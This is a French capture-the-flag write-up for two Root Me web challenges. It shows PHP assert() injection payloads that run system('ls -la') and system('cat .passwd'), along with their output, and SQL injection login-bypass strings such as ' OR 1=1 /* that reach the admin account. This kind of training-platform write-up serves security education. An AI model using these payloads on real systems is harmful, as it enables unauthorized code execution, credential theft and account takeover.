 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exé-cuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND `username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__